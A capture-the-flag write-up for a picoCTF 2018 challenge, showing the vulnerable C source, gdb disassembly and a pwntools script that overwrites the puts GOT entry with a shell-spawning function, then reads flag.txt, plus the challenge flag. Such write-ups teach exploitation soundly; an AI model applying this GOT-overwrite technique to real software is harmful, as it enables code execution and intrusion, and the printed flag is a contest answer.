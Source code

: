 # Problem
Can you authenticate to this [service](https://2018shell1.picoctf.com/static/c65c74a0f13131ba9f0b9497152aedd4/auth) and get the flag? Connect to it with ```nc 2018shell1.picoctf.com 23731```. [Source](https://2018shell1.picoctf.com/static/c65c74a0f13131ba9f0b9497152aedd4/auth.c)

## Hints:
Ever heard of the Global Offset Table?

## Solution:
First we download the files:
```bash
wget https://2018shell1.picoctf.com/static/c65c74a0f13131ba9f0b9497152aedd4/auth
wget https://2018shell1.picoctf.com/static/c65c74a0f13131ba9f0b9497152aedd4/auth.c
chmod +x ./auth
```

Now, we investigate the source:
```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>
#include <sys/types.h>

void win() {
  system("/bin/sh");
}

int main(int argc, char **argv) {

  setvbuf(stdout, NULL, _IONBF, 0);

  char buf[256];
  
  unsigned int address;
  unsigned int value;

  puts("I'll let you write one 4 byte value to memory. Where would you like to write this 4 byte value?");

  scanf("%x", &address);

  sprintf(buf, "Okay, now what value would you like to write to 0x%x", address);
  puts(buf);
  
  scanf("%x", &value);

  sprintf(buf, "Okay, writing 0x%x to 0x%x", value, address);
  puts(buf);

  *(unsigned int *)address = value;

  puts("Okay, exiting now...\n");
  exit(1);
  
}
```

They let us change one word in memory as we wish.

The hint suggests to use the [GOT](https://en.wikipedia.org/wiki/Global_Offset_Table).

If we override the address of ```puts@got()``` to ```win()```, we will have a shell.

Lets find some addresses:
```bash
gdb ./auth

gdb-peda$ disas main
Dump of assembler code for function main:
   0x08048564 <+0>:	lea    ecx,[esp+0x4]
   0x08048568 <+4>:	and    esp,0xfffffff0
   0x0804856b <+7>:	push   DWORD PTR [ecx-0x4]
   0x0804856e <+10>:	push   ebp
   0x0804856f <+11>:	mov    ebp,esp
   0x08048571 <+13>:	push   ecx
   0x08048572 <+14>:	sub    esp,0x124
   0x08048578 <+20>:	mov    eax,ecx
   0x0804857a <+22>:	mov    eax,DWORD PTR [eax+0x4]
   0x0804857d <+25>:	mov    DWORD PTR [ebp-0x11c],eax
   0x08048583 <+31>:	mov    eax,gs:0x14
   0x08048589 <+37>:	mov    DWORD PTR [ebp-0xc],eax
   0x0804858c <+40>:	xor    eax,eax
   0x0804858e <+42>:	mov    eax,ds:0x804a030
   0x08048593 <+47>:	push   0x0
   0x08048595 <+49>:	push   0x2
   0x08048597 <+51>:	push   0x0
   0x08048599 <+53>:	push   eax
   0x0804859a <+54>:	call   0x8048410 <setvbuf@plt>
   0x0804859f <+59>:	add    esp,0x10
   0x080485a2 <+62>:	sub    esp,0xc
   0x080485a5 <+65>:	push   0x80486f8
   0x080485aa <+70>:	call   0x80483d0 <puts@plt>
   0x080485af <+75>:	add    esp,0x10
   0x080485b2 <+78>:	sub    esp,0x8
   0x080485b5 <+81>:	lea    eax,[ebp-0x114]
   0x080485bb <+87>:	push   eax
   0x080485bc <+88>:	push   0x8048758
   0x080485c1 <+93>:	call   0x8048430 <__isoc99_scanf@plt>
   0x080485c6 <+98>:	add    esp,0x10
   0x080485c9 <+101>:	mov    eax,DWORD PTR [ebp-0x114]
   0x080485cf <+107>:	sub    esp,0x4
   0x080485d2 <+110>:	push   eax
   0x080485d3 <+111>:	push   0x804875c
   0x080485d8 <+116>:	lea    eax,[ebp-0x10c]
   0x080485de <+122>:	push   eax
   0x080485df <+123>:	call   0x8048420 <sprintf@plt>
   0x080485e4 <+128>:	add    esp,0x10
   0x080485e7 <+131>:	sub    esp,0xc
   0x080485ea <+134>:	lea    eax,[ebp-0x10c]
   0x080485f0 <+140>:	push   eax
   0x080485f1 <+141>:	call   0x80483d0 <puts@plt>
   0x080485f6 <+146>:	add    esp,0x10
   0x080485f9 <+149>:	sub    esp,0x8
   0x080485fc <+152>:	lea    eax,[ebp-0x110]
   0x08048602 <+158>:	push   eax
   0x08048603 <+159>:	push   0x8048758
   0x08048608 <+164>:	call   0x8048430 <__isoc99_scanf@plt>
   0x0804860d <+169>:	add    esp,0x10
   0x08048610 <+172>:	mov    edx,DWORD PTR [ebp-0x114]
   0x08048616 <+178>:	mov    eax,DWORD PTR [ebp-0x110]
   0x0804861c <+184>:	push   edx
   0x0804861d <+185>:	push   eax
   0x0804861e <+186>:	push   0x8048791
   0x08048623 <+191>:	lea    eax,[ebp-0x10c]
   0x08048629 <+197>:	push   eax
   0x0804862a <+198>:	call   0x8048420 <sprintf@plt>
   0x0804862f <+203>:	add    esp,0x10
   0x08048632 <+206>:	sub    esp,0xc
   0x08048635 <+209>:	lea    eax,[ebp-0x10c]
   0x0804863b <+215>:	push   eax
   0x0804863c <+216>:	call   0x80483d0 <puts@plt>
   0x08048641 <+221>:	add    esp,0x10
   0x08048644 <+224>:	mov    eax,DWORD PTR [ebp-0x114]
   0x0804864a <+230>:	mov    edx,eax
   0x0804864c <+232>:	mov    eax,DWORD PTR [ebp-0x110]
   0x08048652 <+238>:	mov    DWORD PTR [edx],eax
   0x08048654 <+240>:	sub    esp,0xc
   0x08048657 <+243>:	push   0x80487ac
   0x0804865c <+248>:	call   0x80483d0 <puts@plt>
   0x08048661 <+253>:	add    esp,0x10
   0x08048664 <+256>:	sub    esp,0xc
   0x08048667 <+259>:	push   0x1
   0x08048669 <+261>:	call   0x80483f0 <exit@plt>
End of assembler dump.
gdb-peda$ x/i 0x80483d0
   0x80483d0 <puts@plt>:	jmp    DWORD PTR ds:0x804a00c
gdb-peda$ x/w 0x804a00c
0x804a00c:	0x080483d6
gdb-peda$ x win
0x804854b <win>:	0x83e58955
gdb-peda$ quit
```

We just need to override ```0x804a00c``` with ```0x804854b```.

Lets code:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = ''
pw = ''

if debug:
  p = process('./auth')
else:
  p = remote('2018shell1.picoctf.com', 23731)

print p.recvuntil('Where would you like to write this 4 byte value?')
p.sendline('0x804a00c')
print p.recvuntil('Okay, now what value would you like to write to 0x804a00c')
p.sendline('0x804854b')

p.sendline('ls')
p.sendline('cat flag.txt')
p.sendline('exit')

print p.recvall()
```

We have shell!

Flag: picoCTF{m4sT3r_0f_tH3_g0t_t4b1e_a8321d81}